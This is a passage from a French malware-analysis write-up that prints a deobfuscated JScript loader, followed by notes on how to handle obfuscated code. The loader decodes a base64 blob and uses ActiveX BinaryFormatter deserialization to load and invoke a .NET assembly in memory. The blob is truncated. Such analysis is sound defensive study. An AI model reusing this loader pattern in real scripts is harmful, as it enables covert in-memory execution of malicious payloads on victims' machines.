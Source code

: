 ```js
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'+
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'+
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'+
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'+
'AAAAAAAAAAAAAAABDQAAAAQAAAAJFwAAAAkGAAAACRYAAAAGGgAAACdTeXN0ZW0uUmVmbGVjdGlv'+
'bi5Bc3NlbWJseSBMb2FkKEJ5dGVbXSkIAAAACgsA';

// Namespace of the Active X program
// Not obvious right now
var namespace = 'AingeiRai5HahfeiThe2';

try {
  // Get the decoded + mapped program
  var memory = mapCodeInMemory(bigBase64);
  var binaryFormatter = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
  var arrayList = new ActiveXObject('System.Collections.ArrayList');
  var deserialized = binaryFormatter.Deserialize_2(memory);

  // Doesn't seem to do much...
  arrayList.Add(undefined);

  // Invoke it (execution actually doesn't start here)
  var dynamicInvokation = deserialized.DynamicInvoke(arrayList.ToArray()).CreateInstance(namespace);

  // Call some method, we'll see that later
  dynamicInvokation.Aa6bi4uidan4shahSee9(bigBase64);
  // Call entry point
  dynamicInvokation.Joh8achoo1aepahjeiy9();
} catch (e) { debug(e.message); }
```

Beaucoup mieux ! On peut maintenant se demander ce que fait le code...

_**Note** : D'un point de vue méthodologique, **il n'est pas très malin
de faire des modifications sur un code obfusqué avant de l'avoir exécuté
au moins une fois** afin de valider son fonctionnement. En effet, on risque
de casser le code en cherchant à le rendre plus lisible. Sauf que si on ne
sait pas ce que ce code est censé faire, on a plus de **point de comparaison**
nous permettant de savoir si le code n'est pas fonctionnel dans l'absolu ou
si c'est nous qui l'avons cassé._

_**Note** : Quand on travaille sur du code Javascript obfusqué, on a parfois
envie de le réécrire d'une manière super propre avec des `let`, des `const`,
des arrow functions, etc... D'une manière générale il vaut mieux éviter
car on ne sait pas **pour quel moteur Javascript a été écrit ce code** et donc
quels éléments syntaxiques il supporte. Il faut rendre le code explicite
sans risquer d'altérer son fonctionnement._

Il s'agit d'un **wrapper autour d'un composant Active X**. La grosse chaine de
caractères en **base64** est en fait le programme qui est décodé à la volée
puis chargé et exécuté. Les appels à l'API Active X sont assez explicites.
En revanche, j'ai été perturbé ces deux lignes là :
